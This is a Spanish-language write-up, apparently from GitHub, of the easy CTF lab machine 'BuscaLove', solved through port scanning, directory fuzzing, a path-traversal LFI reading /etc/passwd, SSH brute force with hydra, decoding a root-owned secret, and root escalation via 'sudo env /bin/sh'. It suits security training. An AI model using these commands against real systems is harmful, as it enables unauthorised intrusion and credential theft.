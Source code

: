 Maquina: BuscaLove

Autor: Prendelo

Dificultad: Facil

![Captura de pantalla 2024-11-26 205848](https://github.com/user-attachments/assets/e6e28623-9979-46f1-b763-6e6b34f436aa)

ping 172.18.0.2 -c 1 

![Captura de pantalla 2024-11-29 193110](https://github.com/user-attachments/assets/7fddc885-21fe-4b8f-a553-c41af261a116)

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.18.0.2 -vvv 

![Captura de pantalla 2024-11-29 193152](https://github.com/user-attachments/assets/1c708dd3-fc98-411b-9b9d-b38c592b77f6)

Vamos a la web y encontramos la pagina de apache2.

Realizamos un escaneo de directorios y encontramos un directorio llamado WordPress.

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.18.0.2

![Captura de pantalla 2024-11-29 193301](https://github.com/user-attachments/assets/72027e7e-ae6e-4662-8716-966c77e909c2)

Al dirigirnos a esa dirección podemos ver que se trata de una página muy simple en la cual los enlaces no redireccionan a ninguna página.

Realizamos un escaneo para ver si encontramos algún archivo o carpeta, pero no obtenemos nada, solo sabemos que el index es index.php.

gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://172.18.0.2

![Captura de pantalla 2024-11-29 193419](https://github.com/user-attachments/assets/ff82158f-71de-44f6-94c0-3b25b523062a)

Probamos a realizar fuzzing para ver si es posible listar algún archivo. Como no sabemos que archivo encontrar nos apoyaremos del passwd y si lo encuentra podemos también saber que existe un posible LFI

Enviamos el comando y podemos observar que el parámetro es love.

wfuzz -c --hc=404,115 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.18.0.2/wordpress/index.php?FUZZ=../../../../../etc/passwd | grep -v 1040

![Captura de pantalla 2024-11-29 193541](https://github.com/user-attachments/assets/3db39920-92d6-4568-ab37-105b8dc76810)

Si ingresamos la URL en el navegador y vamos al view-source podemos observar con mayor facilidad el passwd.

view-source:http://172.18.0.2/wordpress/index.php?love=../../../../etc/passwd

No solo observamos que es posible un LFI, sino que también tenemos dos usuarios, rosa y pedro,

![Captura de pantalla 2024-11-29 193615](https://github.com/user-attachments/assets/ef8b447d-fbc7-4960-bae7-f3f38dca4771)

Aplicamos fureza bruta con hydra

hydra -l rosa -P /home/ankb/Documents/rockyou.txt ssh://172.18.0.2 -s 22 -t 64

encontramos en password: lovebug

![Captura de pantalla 2024-11-29 194033](https://github.com/user-attachments/assets/5bcb3e93-40ed-4ae2-ad82-17627db3011b)

Nos metemos por ssh con los credenciales encontrados

ssh rosa@172.18.0.2

lovebug

![Captura de pantalla 2024-11-29 194107](https://github.com/user-attachments/assets/58ea3605-b0d1-4709-a35a-253560b43bab)

sudo -l

![Captura de pantalla 2024-11-29 194120](https://github.com/user-attachments/assets/835e0ab1-4676-40d5-8946-09f60d837bc1)

Tenemos dos binarios que nos pueden ser de utilidad, en el caso de ls nos permite listar archivos como root y usando cat de esta manera podemos leerlos.

sudo /usr/bin/ls /root

Haciendo uso de cat procedemos a leer el archivo y observamos que es un archivo al parecer en formato hexadecimal.

sudo /usr/bin/cat /root/secret.txt

![Captura de pantalla 2024-11-29 194359](https://github.com/user-attachments/assets/1e8dd019-15b5-400c-b170-c152b8e5d7b1)

Copiamos este texto cifrado en la página de CyberChef y podemos observar que primero el texto estaba en formato Hexadecimal y luego en base 32, pero transformando ambos podemos observar que el texto era noacertarasosi.

![Captura de pantalla 2024-11-29 195219](https://github.com/user-attachments/assets/66b6fe03-5b5f-47b6-9f95-e7931751a5cb)

Pobamos las credenciales encontradas con el usuario pedro.

su pedro
noacertarasosi

![Captura de pantalla 2024-11-29 195256](https://github.com/user-attachments/assets/46b32728-8953-47d9-8cff-6ea67a5a7f4f)

sudo -l

![Captura de pantalla 2024-11-29 195311](https://github.com/user-attachments/assets/8d49f681-cdc0-411a-b3b5-d170f84dec45)

sudo env /bin/sh

whoami

![Captura de pantalla 2024-11-29 195330](https://github.com/user-attachments/assets/51fe09ed-690f-4161-93a8-427156300637)



